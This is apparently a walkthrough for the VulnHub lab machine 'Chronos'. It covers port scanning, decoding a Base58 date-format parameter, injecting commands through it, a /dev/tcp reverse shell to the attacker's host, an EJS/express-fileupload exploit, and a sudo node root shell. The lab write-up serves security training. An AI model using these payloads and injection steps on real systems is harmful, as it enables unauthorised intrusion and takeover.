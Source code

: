 Target: 10.0.0.35
Difficulty: Medium
Source: https://www.vulnhub.com/entry/chronos-1,735/

## ***NMAP***

    $ nmap -sS -T4 -p- 10.0.0.35

    PORT     STATE SERVICE
    22/tcp   open  ssh
    80/tcp   open  http
    8000/tcp open  http-alt

## ***HTTP | PORT 80 / 8000***

![image](https://user-images.githubusercontent.com/76552238/158429168-ed529255-c7e4-4c02-9a24-c130ed79fe61.png)

Going to http://10.0.0.35, we don't have functionally, comments or anything that might help us. Brute forcing the directories doesn't find anything either.
Going to the source code, we can find this line:

![image](https://user-images.githubusercontent.com/76552238/158429770-4cf517fd-3411-4ef8-a625-8721a065ac6d.png)

<!--http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL-->

Adding "10.0.0.35 chronos.local" to /etc/hosts and going to the specified url, it seems we don't have permission to access this page.

![image](https://user-images.githubusercontent.com/76552238/158429994-25ff75a7-3792-4f35-8d88-4d498b3af739.png)

Going to ***http://chronos.local:8000*** we can see that the date and time is being specified, probably the 'date' command used in Linux.

![image](https://user-images.githubusercontent.com/76552238/158430123-55936e80-45d4-47fe-84a2-6c0d7c4ea01f.png)

We can try to decode the string that is been passed in the url. Let's try decoding is using Base64.

    $ echo '4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL' | base64 -d

![image](https://user-images.githubusercontent.com/76552238/158430605-184d299d-3148-4fca-a773-375f7b79fd60.png)

This string isn't encoded using Base64. I found a site that find a message encoding. ***https://www.dcode.fr/cipher-identifier***

![image](https://user-images.githubusercontent.com/76552238/158430958-b9e8cbc4-ec91-4d0d-ac73-054b4cff151b.png)

Let's try to decode the string using Base58.

    $ echo '4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL' | base58 -d

![image](https://user-images.githubusercontent.com/76552238/158431092-b2e67916-b49f-4244-9bd2-276efe6efb43.png)

<!-- 4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL Base58 Decode: 
'+Today is %A, %B %d, %Y %H:%M:%S.' -->

    %A - Day
    %B - Month
    %d - day (number_
    %Y - Year
    %H - Hour
    %M - Minute
    %S - Second

Turns out, this string format can be used with the 'date' command in Linux.

    $  date '+Today is %A, %B %d, %Y %H:%M:%S.'

![image](https://user-images.githubusercontent.com/76552238/158431286-f1cf7685-ce61-4759-b782-2373c4b43e7a.png)

This means we can inject a command and start a reverse shell. Since we don't have permission to access ***'chronos.local:8000/data/'***, we can execute RCE from ***'chronos.local:8000'*** using the network tab in developer tools. Let try to run the 'ls' command on the machine.

    $ echo '; ls' | base58

    2WfAHp

![image](https://user-images.githubusercontent.com/76552238/158438588-81fcda71-42da-4b78-9edf-e307c17b11d5.png)


![image](https://user-images.githubusercontent.com/76552238/158438144-c9b15d18-c986-4395-9c72-f3984530c2f3.png)

By decoding ";bash -c 'bash -i >& /dev/tcp/10.0.0.27/4444 0>&1'" with Base58  and send it, we can open a reverse shell on our local machine.

    ;bash -c 'bash -i >& /dev/tcp/10.0.0.27/4444 0>&1'

    Base58 Encode:
    jSQFn3DG86mbq9wJvQ3UZztDFRqBaqKWp7w5ghvh2eChdyAGQsPJeHXYmg6ECpV2itHc

![image](https://user-images.githubusercontent.com/76552238/158438542-6771bc8f-6439-4248-b0fe-cdf8e31d8d74.png)

![image](https://user-images.githubusercontent.com/76552238/158438764-958f36cf-ee5d-4c60-bb02-459a3de38603.png)

### ***Local Machine:***

![image](https://user-images.githubusercontent.com/76552238/158438922-4757de8d-5962-4b6a-b681-543bc6f74885.png)

## ***PRIVILEGE ESCALATION***

We are logged in as the user 'www-data'. Going to the home directory we can find a user ---> 'imera'.

![image](https://user-images.githubusercontent.com/76552238/158439207-3eb42641-d777-4e8f-8908-0ae672dcd27b.png)

We don't have permissions to view the directory.  
At this point I got stuck for a bit, I searched for some exploits but found none. After some digging around I the directory **/opt/chronos-v2/backend** which seemed interesting.

![image](https://user-images.githubusercontent.com/76552238/158439432-1601e880-5e24-4229-aab6-72432b76a8b8.png)


### ***/opt/chronos-v2/backend/package.json:***

    "name": "some-website",
    "version": "1.0.0",
    "description": "",
    "main": "server.js",
    "scripts": {
        "start": "node server.js"
    },
    "author": "",
    "license": "ISC",
    "dependencies": {
        "ejs": "^3.1.5",
        "express": "^4.17.1",
        "express-fileupload": "^1.1.7-alpha.3"
    }

It stats that "express-fileupload" is being used. 'express-fileupload' is a way to upload and download files in Node.js. I of course searched if it has any vulnerabilities and found this github repository ***https://github.com/boiledsteak/EJS-Exploit***.

### ***Remote Machine:***

![image](https://user-images.githubusercontent.com/76552238/158442157-9d13699b-3230-4818-9096-bf743c7a83ba.png)

### ***Local Machine:***

![image](https://user-images.githubusercontent.com/76552238/158442263-96476c09-aae8-47da-a6eb-e09be4a554f5.png)

By downloading and executing the exploit on victim machine and listening on my local machine, we are able to get a reverse shell as the user 'imera'.

We now have permission to go the /home/imera directory and read 'user.txt'.

> ### ***/home/imera/user.txt:***                                                                                      
![image](https://user-images.githubusercontent.com/76552238/158442524-733ceedb-980a-4fea-a1d8-1f9122b14c8c.png)

Let's see if the user is part of the sudo group.

    $ sudo -l

    Matching Defaults entries for imera on chronos:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User imera may run the following commands on chronos:
        (ALL) NOPASSWD: /usr/local/bin/npm *
        (ALL) NOPASSWD: /usr/local/bin/node *

I searched online for 'linux node command privilege escalation' and found an article from GTFOBins ***https://gtfobins.github.io/gtfobins/node/***.

    $ sudo node -e 'child_process.spawn("/bin/sh", {stdio: [0, 1, 2]})'

![image](https://user-images.githubusercontent.com/76552238/158442877-5c81fb45-f0c7-40c2-945f-b038105b985a.png)

### ***/root/root.txt:***

![image](https://user-images.githubusercontent.com/76552238/158443013-5d4cdab7-d071-4b1b-8f8a-87a368ac43e9.png)
